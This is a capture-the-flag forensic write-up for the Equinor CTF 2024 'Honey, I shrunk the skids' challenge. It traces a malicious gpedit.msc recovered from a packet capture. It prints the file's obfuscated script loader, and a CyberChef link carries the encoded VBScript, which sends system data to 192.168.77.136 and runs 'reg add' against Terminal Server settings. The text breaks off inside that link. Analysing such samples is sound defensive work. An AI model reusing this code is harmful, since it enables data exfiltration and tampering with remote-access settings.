



# Writeup

by .spydx & loca1gh0st @ bwnfools

## Forensic: Honey, I shrunk the skids

From the `.zip` we got two files.

```shell
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ unzip shrunk.zip 
Archive:  shrunk.zip
  inflating: FlagDisk.vhdx      
  inflating: shrunk.pcap        
```

`FlagDisk.vhdx` is by the extention a Virtual Harddrive file in the `.VHDX` format.
`shrunk.pcap` is a network capture file.

Opened `shrunk.pcap` in WireShark, and checked if there was any files in the network traffic, locating two files instantly.
Extracted the files with Wireshark.

```shell
    gpedit.zip
    updatelog.txt
```


A quick look at the `updatelog.txt` only showed a string `upgrade=REVTS1RPUC01OUMxQzNECTQzOTA2Ljgz`.

The other file, `gpedit.zip`, looked like it contained a `.msc` file.

```shell
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ unzip gpedit.zip -d gpedit 
Archive:  gpedit.zip
  inflating: gpedit/gpedit.msc
```

The `.msc` extention is for Microsoft Management Console application that is used to create and mange Windows machines. `gpedit` is also a common console application to open to edit settings on a Windows machine, obtained from Group Policy.
This file is a XML file, and I used VSCode to investigated it. Uppon viewing the file, there was a larger section that was running a script that was parsed an unescaped string into XML.

```vb
...
xsl.loadXML(unescape("%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%27%31%2e%30%27%3f%3e%0a%3c%73%74%79%6c%65%73%68%65%65%74%0a%20%20%20%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%31%39%39%39%2f%58%53%4c%2f%
....
65%74%3e"))
XML.transformNode(xsl)
```

Used CyberChef, with URL Decode to get the content for the file, and this revield a larger Visual Basic Script `.vbs`.
[CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Decode()&input=JTNjJTNmJTc4JTZkJTZjJTIwJTc2JTY1JTcyJTczJTY5JTZmJTZlJTNkJTI3JTMxJTJlJTMwJTI3JTNmJTNlJTBhJTNjJTczJTc0JTc5JTZjJTY1JTczJTY4JTY1JTY1JTc0JTBhJTIwJTIwJTIwJTIwJTc4JTZkJTZjJTZlJTczJTNkJTIyJTY4JTc0JTc0JTcwJTNhJTJmJTJmJTc3JTc3JTc3JTJlJTc3JTMzJTJlJTZmJTcyJTY3JTJmJTMxJTM5JTM5JTM5JTJmJTU4JTUzJTRjJTJmJTU0JTcyJTYxJTZlJTczJTY2JTZmJTcyJTZkJTIyJTIwJTc4JTZkJTZjJTZlJTczJTNhJTZkJTczJTNkJTIyJTc1JTcyJTZlJTNhJTczJTYzJTY4JTY1JTZkJTYxJTczJTJkJTZkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTJkJTYzJTZmJTZkJTNhJTc4JTczJTZjJTc0JTIyJTBhJTIwJTIwJTIwJTIwJTc4JTZkJTZjJTZlJTczJTNhJTc1JTczJTY1JTcyJTNkJTIyJTcwJTZjJTYxJTYzJTY1JTY4JTZmJTZjJTY0JTY1JTcyJTIyJTBhJTIwJTIwJTIwJTIwJTc2JTY1JTcyJTczJTY5JTZmJTZlJTNkJTIyJTMxJTJlJTMwJTIyJTNlJTBhJTIwJTIwJTIwJTIwJTNjJTZmJTc1JTc0JTcwJTc1JTc0JTIwJTZkJTY1JTc0JTY4JTZmJTY0JTNkJTIyJTc0JTY1JTc4JTc0JTIyJTJmJTNlJTBhJTIwJTIwJTIwJTIwJTNjJTZkJTczJTNhJTczJTYzJTcyJTY5JTcwJTc0JTIwJTY5JTZkJTcwJTZjJTY1JTZkJTY1JTZlJTc0JTczJTJkJTcwJTcyJTY1JTY2JTY5JTc4JTNkJTIyJTc1JTczJTY1JTcyJTIyJTIwJTZjJTYxJTZlJTY3JTc1JTYxJTY3JTY1JTNkJTIyJTU2JTQyJTUzJTYzJTcyJTY5JTcwJTc0JTIyJTNlJTBhJTA5JTNjJTIxJTViJTQzJTQ0JTQxJTU0JTQxJTViJTBhJTBhJTQ2JTc1JTZlJTYzJTc0JTY5JTZmJTZlJTIwJTUzJTc0JTcyJTY1JTYxJTZkJTVmJTUzJTc0JTcyJTY5JTZlJTY3JTU0JTZmJTQyJTY5JTZlJTYxJTcyJTc5JTI4JTU0JTY1JTc4JTc0JTI5JTBhJTIwJTIwJTQzJTZmJTZlJTczJTc0JTIwJTYxJTY0JTU0JTc5JTcwJTY1JTU0JTY1JTc4JTc0JTIwJTNkJTIwJTMyJTBhJTIwJTIwJTQzJTZmJTZlJTczJTc0JTIwJTYxJTY0JTU0JTc5JTcwJTY1JTQyJTY5JTZlJTYxJTcyJTc5JTIwJTNkJTIwJTMxJTBhJTIwJTIwJTQ0JTY5JTZkJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTBhJTIwJTIwJTUzJTY1JTc0JTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTQxJTQ0JTRmJTQ0JTQyJTJlJTUzJTc0JTcyJTY1JTYxJTZkJTIyJTI5JTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTU0JTc5JTcwJTY1JTIwJTNkJTIwJTYxJTY0JTU0JTc5JTcwJTY1JTU0JTY1JTc4JTc0JTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTQzJTY4JTYxJTcyJTUzJTY1JTc0JTIwJTNkJTIwJTIyJTc1JTczJTJkJTYxJTczJTYzJTY5JTY5JTIyJTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTRmJTcwJTY1JTZlJTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTU3JTcyJTY5JTc0JTY1JTU0JTY1JTc4JTc0JTIwJTU0JTY1JTc4JTc0JTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTUwJTZmJTczJTY5JTc0JTY5JTZmJTZlJTIwJTNkJTIwJTMwJTBhJTIwJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTU0JTc5JTcwJTY1JTIwJTNkJTIwJTYxJTY0JTU0JTc5JTcwJTY1JTQyJTY5JTZlJTYxJTcyJTc5JTBhJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTUwJTZmJTczJTY5JTc0JTY5JTZmJTZlJTIwJTNkJTIwJTMwJTBhJTIwJTUzJTc0JTcyJTY1JTYxJTZkJTVmJTUzJTc0JTcyJTY5JTZlJTY3JTU0JTZmJTQyJTY5JTZlJTYxJTcyJTc5JTIwJTNkJTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTJlJTUyJTY1JTYxJTY0JTBhJTIwJTUzJTY1JTc0JTIwJTQyJTY5JTZlJTYxJTcyJTc5JTUzJTc0JTcyJTY1JTYxJTZkJTIwJTNkJTIwJTRlJTZmJTc0JTY4JTY5JTZlJTY3JTBhJTQ1JTZlJTY0JTIwJTQ2JTc1JTZlJTYzJTc0JTY5JTZmJTZlJTBhJTBhJTQ0JTY5JTZkJTIwJTczJTc0JTcyJTUyJTYxJTZlJTY0JTZmJTZkJTBhJTYzJTY4JTYxJTcyJTYxJTYzJTc0JTY1JTcyJTczJTIwJTNkJTIwJTIyJTU0JTQ4JTQ1JTUxJTU1JTQ5JTQzJTRiJTQyJTUyJTRmJTU3JTRlJTQ2JTRmJTU4JTRhJTU1JTRkJTUwJTUzJTRmJTU2JTQ1JTUyJTU0JTQ4JTQ1JTRjJTQxJTVhJTU5JTQ0JTRmJTQ3JTIxJTQwJTIzJTI0JTI2JTJhJTJkJTJiJTNkJTVmJTNiJTMwJTMxJTMyJTMzJTM0JTM1JTM2JTM3JTM4JTM5JTc0JTY4JTY1JTcxJTc1JTY5JTYzJTZiJTYyJTcyJTZmJTc3JTZlJTY2JTZmJTc4JTZhJTc1JTZkJTcwJTczJTZmJTc2JTY1JTcyJTc0JTY4JTZjJTYxJTdhJTc5JTY0JTZmJTY3JTIyJTBhJTQ0JTY5JTZkJTIwJTczJTY1JTY1JTY0JTBhJTczJTY1JTY1JTY0JTIwJTNkJTIwJTQzJTUzJTc0JTcyJTI4JTc1JTczJTY1JTY0JTRkJTY1JTZkJTZmJTcyJTc5JTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTc1JTczJTY1JTY0JTUzJTcwJTYxJTYzJTY1JTU0JTZmJTc0JTYxJTZjJTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTY2JTcyJTY1JTY1JTUzJTcwJTYxJTYzJTY1JTU0JTZmJTc0JTYxJTZjJTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTY2JTcyJTY1JTY1JTRkJTY1JTZkJTZmJTcyJTc5JTI5JTIwJTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTczJTc5JTczJTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTcwJTY1JTcyJTY2JTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTcyJTY1JTYzJTY1JTY5JTc2JTY1JTY0JTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTczJTY1JTZlJTc0JTI5JTIwJTI2JTIwJTQzJTUzJTc0JTcyJTI4JTU0JTY5JTZkJTY1JTcyJTI5JTBhJTUyJTZlJTY0JTI4JTJkJTMxJTI5JTBhJTUyJTYxJTZlJTY0JTZmJTZkJTY5JTdhJTY1JTIwJTczJTY1JTY1JTY0JTBhJTQ2JTZmJTcyJTIwJTY5JTIwJTNkJTIwJTMxJTIwJTU0JTZmJTIwJTM2JTM0JTBhJTIwJTIwJTIwJTIwJTBhJTIwJTIwJTIwJTIwJTcyJTYxJTZlJTY0JTZmJTZkJTRlJTc1JTZkJTIwJTNkJTIwJTQ5JTZlJTc0JTI4JTRjJTY1JTZlJTI4JTYzJTY4JTYxJTcyJTYxJTYzJTc0JTY1JTcyJTczJTI5JTIwJTJhJTIwJTUyJTZlJTY0JTI4JTMyJTI5JTI5JTBhJTIwJTIwJTIwJTIwJTcyJTYxJTZlJTY0JTZmJTZkJTQzJTY4JTYxJTcyJTIwJTNkJTIwJTRkJTY5JTY0JTI4JTYzJTY4JTYxJTcyJTYxJTYzJTc0JTY1JTcyJTczJTJjJTIwJTcyJTYxJTZlJTY0JTZmJTZkJTRlJTc1JTZkJTIwJTJiJTIwJTMxJTJjJTIwJTMxJTI5JTIwJTIwJTIwJTIwJTBhJTIwJTIwJTIwJTIwJTczJTc0JTcyJTUyJTYxJTZlJTY0JTZmJTZkJTIwJTNkJTIwJTczJTc0JTcyJTUyJTYxJTZlJTY0JTZmJTZkJTIwJTI2JTIwJTcyJTYxJTZlJTY0JTZmJTZkJTQzJTY4JTYxJTcyJTBhJTRlJTY1JTc4JTc0JTBhJTBhJTUzJTY1JTc0JTIwJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTY5JTZlJTQ4JTc0JTc0JTcwJTJlJTU3JTY5JTZlJTQ4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTM1JTJlJTMxJTIyJTI5JTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTRmJTcwJTY1JTZlJTIwJTIyJTUwJTRmJTUzJTU0JTIyJTJjJTIwJTIyJTY4JTc0JTc0JTcwJTNhJTJmJTJmJTMxJTM5JTMyJTJlJTMxJTM2JTM4JTJlJTM3JTM3JTJlJTMxJTMzJTM2JTJmJTc1JTcwJTY0JTYxJTc0JTY1JTZjJTZmJTY3JTIyJTJjJTIwJTQ2JTYxJTZjJTczJTY1JTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTUzJTY1JTc0JTUyJTY1JTcxJTc1JTY1JTczJTc0JTQ4JTY1JTYxJTY0JTY1JTcyJTIwJTIyJTQzJTZmJTZlJTc0JTY1JTZlJTc0JTJkJTU0JTc5JTcwJTY1JTIyJTJjJTIwJTIyJTYxJTcwJTcwJTZjJTY5JTYzJTYxJTc0JTY5JTZmJTZlJTJmJTc4JTJkJTc3JTc3JTc3JTJkJTY2JTZmJTcyJTZkJTJkJTc1JTcyJTZjJTY1JTZlJTYzJTZmJTY0JTY1JTY0JTIyJTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTUzJTY1JTc0JTUyJTY1JTcxJTc1JTY1JTczJTc0JTQ4JTY1JTYxJTY0JTY1JTcyJTIwJTIyJTYxJTYzJTYzJTY1JTcwJTc0JTJkJTZjJTYxJTZlJTY3JTc1JTYxJTY3JTY1JTIyJTJjJTIwJTIyJTY2JTcyJTIyJTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTUzJTY1JTc0JTUyJTY1JTcxJTc1JTY1JTczJTc0JTQ4JTY1JTYxJTY0JTY1JTcyJTIwJTIyJTc1JTczJTY1JTcyJTJkJTYxJTY3JTY1JTZlJTc0JTIyJTJjJTIwJTIyJTRkJTZmJTdhJTY5JTZjJTZjJTYxJTJmJTM1JTJlJTMwJTIwJTI4JTU3JTY5JTZlJTY0JTZmJTc3JTczJTIwJTRlJTU0JTIwJTMxJTMwJTJlJTMwJTNiJTIwJTU3JTY5JTZlJTM2JTM0JTNiJTIwJTc4JTM2JTM0JTNiJTIwJTcyJTc2JTNhJTMxJTMyJTMzJTJlJTMwJTI5JTIwJTQ3JTY1JTYzJTZiJTZmJTJmJTMyJTMwJTMxJTMwJTMwJTMxJTMwJTMxJTIwJTQ2JTY5JTcyJTY1JTY2JTZmJTc4JTJmJTMxJTMyJTMzJTJlJTMwJTIyJTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTRmJTcwJTc0JTY5JTZmJTZlJTI4JTM0JTI5JTIwJTNkJTIwJTMxJTMzJTMwJTM1JTM2JTBhJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTRmJTcwJTc0JTY5JTZmJTZlJTI4JTM2JTI5JTIwJTNkJTIwJTc0JTcyJTc1JTY1JTBhJTBhJTYzJTZmJTZkJTcwJTc1JTc0JTY1JTcyJTRlJTYxJTZkJTY1JTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTRlJTY1JTc0JTc3JTZmJTcyJTZiJTIyJTI5JTJlJTQzJTZmJTZkJTcwJTc1JTc0JTY1JTcyJTRlJTYxJTZkJTY1JTBhJTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTUwJTZjJTYxJTY5JTZlJTc0JTY1JTc4JTc0JTIwJTNkJTIwJTYzJTZmJTZkJTcwJTc1JTc0JTY1JTcyJTRlJTYxJTZkJTY1JTIwJTI2JTIwJTc2JTYyJTU0JTYxJTYyJTIwJTI2JTIwJTczJTY1JTY1JTY0JTBhJTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTUwJTZjJTYxJTY5JTZlJTc0JTY1JTc4JTc0JTMyJTIwJTNkJTIwJTYzJTZmJTZkJTcwJTc1JTc0JTY1JTcyJTRlJTYxJTZkJTY1JTIwJTI2JTIwJTc2JTYyJTU0JTYxJTYyJTIwJTI2JTIwJTcyJTY1JTczJTc1JTZjJTc0JTBhJTBhJTUzJTY1JTc0JTIwJTZmJTU4JTRkJTRjJTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTRkJTczJTc4JTZkJTZjJTMyJTJlJTQ0JTRmJTRkJTQ0JTZmJTYzJTc1JTZkJTY1JTZlJTc0JTJlJTM2JTJlJTMwJTIyJTI5JTBhJTUzJTY1JTc0JTIwJTZmJTRlJTZmJTY0JTY1JTIwJTNkJTIwJTZmJTU4JTRkJTRjJTJlJTQzJTcyJTY1JTYxJTc0JTY1JTQ1JTZjJTY1JTZkJTY1JTZlJTc0JTI4JTIyJTYyJTYxJTczJTY1JTM2JTM0JTIyJTI5JTBhJTZmJTRlJTZmJTY0JTY1JTJlJTY0JTYxJTc0JTYxJTU0JTc5JTcwJTY1JTIwJTNkJTIwJTIyJTYyJTY5JTZlJTJlJTYyJTYxJTczJTY1JTM2JTM0JTIyJTBhJTBhJTQ5JTY2JTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTMxJTJjJTIwJTYzJTYxJTcwJTc0JTY5JTZmJTZlJTJjJTIwJTIyJTMyJTMwJTMwJTM4JTIyJTJjJTIwJTc2JTYyJTU0JTY1JTc4JTc0JTQzJTZmJTZkJTcwJTYxJTcyJTY1JTI5JTIwJTNlJTIwJTMwJTIwJTRmJTcyJTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTMxJTJjJTIwJTYzJTYxJTcwJTc0JTY5JTZmJTZlJTJjJTIwJTIyJTM3JTIyJTJjJTIwJTc2JTYyJTU0JTY1JTc4JTc0JTQzJTZmJTZkJTcwJTYxJTcyJTY1JTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTBhJTIwJTIwJTIwJTIwJTZmJTRlJTZmJTY0JTY1JTJlJTZlJTZmJTY0JTY1JTU0JTc5JTcwJTY1JTY0JTU2JTYxJTZjJTc1JTY1JTIwJTNkJTIwJTUzJTc0JTcyJTY1JTYxJTZkJTVmJTUzJTc0JTcyJTY5JTZlJTY3JTU0JTZmJTQyJTY5JTZlJTYxJTcyJTc5JTI4JTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTUwJTZjJTYxJTY5JTZlJTc0JTY1JTc4JTc0JTI5JTBhJTA5JTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTIwJTNkJTIwJTIyJTc1JTcwJTY3JTcyJTYxJTY0JTY1JTNkJTIyJTIwJTI2JTIwJTZmJTRlJTZmJTY0JTY1JTJlJTU0JTY1JTc4JTc0JTBhJTQ1JTZjJTczJTY1JTBhJTIwJTIwJTIwJTIwJTZmJTRlJTZmJTY0JTY1JTJlJTZlJTZmJTY0JTY1JTU0JTc5JTcwJTY1JTY0JTU2JTYxJTZjJTc1JTY1JTIwJTNkJTIwJTUzJTc0JTcyJTY1JTYxJTZkJTVmJTUzJTc0JTcyJTY5JTZlJTY3JTU0JTZmJTQyJTY5JTZlJTYxJTcyJTc5JTI4JTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTUwJTZjJTYxJTY5JTZlJTc0JTY1JTc4JTc0JTI5JTBhJTA5JTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTIwJTNkJTIwJTIyJTc1JTcwJTY3JTcyJTYxJTY0JTY1JTNkJTIyJTIwJTI2JTIwJTZmJTRlJTZmJTY0JTY1JTJlJTU0JTY1JTc4JTc0JTBhJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTBhJTBhJTcyJTY1JTc0JTcyJTc5JTQzJTZmJTc1JTZlJTc0JTIwJTNkJTIwJTMzJTBhJTBhJTQ0JTZmJTIwJTU3JTY4JTY5JTZjJTY1JTIwJTcyJTY1JTc0JTcyJTc5JTQzJTZmJTc1JTZlJTc0JTIwJTNjJTIwJTM1JTBhJTRmJTZlJTIwJTQ1JTcyJTcyJTZmJTcyJTIwJTUyJTY1JTczJTc1JTZkJTY1JTIwJTRlJTY1JTc4JTc0JTBhJTA5JTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTUzJTY1JTc0JTU0JTY5JTZkJTY1JTZmJTc1JTc0JTczJTIwJTMxJTM1JTMwJTMwJTMwJTJjJTIwJTMxJTM1JTMwJTMwJTMwJTJjJTIwJTMxJTM1JTMwJTMwJTMwJTJjJTIwJTMxJTM1JTMwJTMwJTMwJTBhJTIwJTIwJTIwJTIwJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTUzJTY1JTZlJTY0JTIwJTcwJTZmJTczJTc0JTQ0JTYxJTc0JTYxJTBhJTA5JTQ5JTY2JTIwJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTczJTc0JTYxJTc0JTc1JTczJTIwJTNkJTIwJTM1JTMyJTMwJTIwJTU0JTY4JTY1JTZlJTBhJTA5JTA5JTQ5JTY2JTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTMxJTJjJTIwJTY4JTc0JTc0JTcwJTUyJTY1JTcxJTc1JTY1JTczJTc0JTJlJTY3JTY1JTc0JTQxJTZjJTZjJTUyJTY1JTczJTcwJTZmJTZlJTczJTY1JTQ4JTY1JTYxJTY0JTY1JTcyJTczJTJjJTIwJTIyJTYzJTZjJTZmJTc1JTY0JTY2JTZjJTYxJTcyJTY1JTIyJTJjJTIwJTc2JTYyJTU0JTY1JTc4JTc0JTQzJTZmJTZkJTcwJTYxJTcyJTY1JTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTBhJTA5JTA5JTQ1JTc4JTY5JTc0JTIwJTQ0JTZmJTBhJTA5JTA5JTQ1JTZjJTczJTY1JTBhJTA5JTA5JTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTZjJTY1JTY1JTcwJTI4JTMzJTMwJTMwJTMwJTI5JTBhJTA5JTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTcyJTY1JTc0JTcyJTc5JTQzJTZmJTc1JTZlJTc0JTIwJTNkJTIwJTcyJTY1JTc0JTcyJTc5JTQzJTZmJTc1JTZlJTc0JTIwJTJiJTIwJTMxJTBhJTRjJTZmJTZmJTcwJTBhJTBhJTBhJTUzJTY1JTc0JTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTUzJTY1JTcyJTc2JTY5JTYzJTY1JTIwJTNkJTIwJTQ3JTY1JTc0JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTc3JTY5JTZlJTZkJTY3JTZkJTc0JTczJTNhJTVjJTVjJTJlJTVjJTcyJTZmJTZmJTc0JTVjJTQzJTQ5JTRkJTU2JTMyJTIyJTI5JTBhJTA5JTQ0JTY5JTZkJTIwJTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTBhJTA5JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTIwJTNkJTIwJTIyJTQzJTNhJTJjJTQ1JTNhJTIyJTBhJTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTBhJTA5JTA5JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTIwJTNkJTIwJTRjJTY1JTY2JTc0JTI4JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTJjJTIwJTRjJTY1JTZlJTI4JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTI5JTIwJTJkJTIwJTMxJTI5JTBhJTA5JTA5JTY0JTcyJTY5JTc2JTY1JTczJTIwJTNkJTIwJTUzJTcwJTZjJTY5JTc0JTI4JTZkJTYxJTc0JTYzJTY4JTY1JTY0JTQ0JTcyJTY5JTc2JTY1JTczJTJjJTIwJTIyJTJjJTIyJTI5JTBhJTA5JTA5JTQ2JTZmJTcyJTIwJTY5JTIwJTNkJTIwJTMwJTIwJTU0JTZmJTIwJTU1JTQyJTZmJTc1JTZlJTY0JTI4JTY0JTcyJTY5JTc2JTY1JTczJTI5JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTc5JTczJTc0JTY1JTZkJTVjJTQzJTc1JTcyJTcyJTY1JTZlJTc0JTQzJTZmJTZlJTc0JTcyJTZmJTZjJTUzJTY1JTc0JTVjJTQzJTZmJTZlJTc0JTcyJTZmJTZjJTVjJTU0JTY1JTcyJTZkJTY5JTZlJTYxJTZjJTIwJTUzJTY1JTcyJ